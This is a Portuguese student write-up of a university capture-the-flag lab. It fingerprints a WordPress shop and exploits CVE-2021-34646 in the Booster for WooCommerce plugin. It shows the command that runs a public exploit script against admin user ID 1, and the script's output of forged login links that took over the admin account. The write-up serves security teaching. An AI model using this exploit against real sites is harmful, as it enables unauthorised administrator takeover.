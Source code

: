 # CTF 1 

## Primeira parte

Ao aceder à página **http://ctf-fsi.fe.up.pt:5001**, que é um servidor WordPress, começamos por inferir todas as dependências do site. Através de uma pesquisa mais cuidada, tanto pela navegação nos diversos links como pelo código-fonte do mesmo, acabamos por descobrir as seguintes dependências:

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3

Depois investigamos em bases de dados de CVEs vulnerabilidades associadas a cada plugin e cada versão, com principal incidência nas que permitissem fazer login como outro utilizador. A CVE-2021-34646 do WooCommerce 5.4.3 pareceu-nos adequada, e ao usarmos a `flag[CVE-2021-34646]` ultrapassamos a primeira parte do desafio.

## Segunda parte

Descoberta a vulnerabilidade da versão 5.4.3 do plugin WooCommerce, catalogada e disponível [aqui](https://www.exploit-db.com/exploits/50299), tivemos acesso a passos detalhados que permitiam explorá-la. A primeira tarefa foi aceder a `https://target.com/wp-json/wp/v2/users/` de forma a encontrarmos IDs de administradores. Após descoberta do ID=1, que é normalmente usado por utilizadores de acessos privilegiados, também tivemos acesso a um script em Python que usava esse mesmo identificador para atacar o site: 

````bash
$ python3 script.py http://ctf-fsi.fe.up.pt:5001 1
````

De forma simplista, o ataque consiste em formar um link de validação de login com uma chave codificada em Base 64 através do timestamp atual. Como resultado obtivemos alguns links:

````
Timestamp: Fri, 07 Oct 2022 10:32:54 GMT
Timestamp (unix): 1665138774

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash b8f64a0ef997c812589538daf4778731:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYjhmNjRhMGVmOTk3YzgxMjU4OTUzOGRhZjQ3Nzg3MzEifQ

#1 link for hash 7bab6c3f87bb43a8700395f17fba953b:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiN2JhYjZjM2Y4N2JiNDNhODcwMDM5NWYxN2ZiYTk1M2IifQ

#2 link for hash 92b66b0659b9b9e339d4afe1c09dee10:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOTJiNjZiMDY1OWI5YjllMzM5ZDRhZmUxYzA5ZGVlMTAifQ
````

Aceder a um dos três resultados obtidos permitiu-nos fazer login na conta do administrador do site. Bastou seguir as indicações do guião do CTF para acedermos também à página **http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php**. No post privado estava escrita a flag final do desafio, `flag{please don't bother me}`.
